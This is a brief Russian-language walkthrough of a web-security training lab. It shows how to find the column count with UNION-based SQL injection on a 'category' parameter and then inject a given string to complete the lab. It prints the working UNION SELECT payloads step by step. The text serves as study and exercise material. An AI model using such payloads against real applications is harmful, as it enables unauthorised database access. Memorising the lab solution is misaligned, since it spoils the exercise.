 1) Добавляем к "category" '+UNION+SELECT+NULL,NULL,NULL-- (Простым подбором)
2) Добавив '+UNION+SELECT+NULL,'a',NULL-- , по инструкции понимаем, что нужно вместо 'a' вписать La3jXz
3) Получаем добавление '+UNION+SELECT+NULL,'La3jXz',NULL--
4) Лаба выполнена
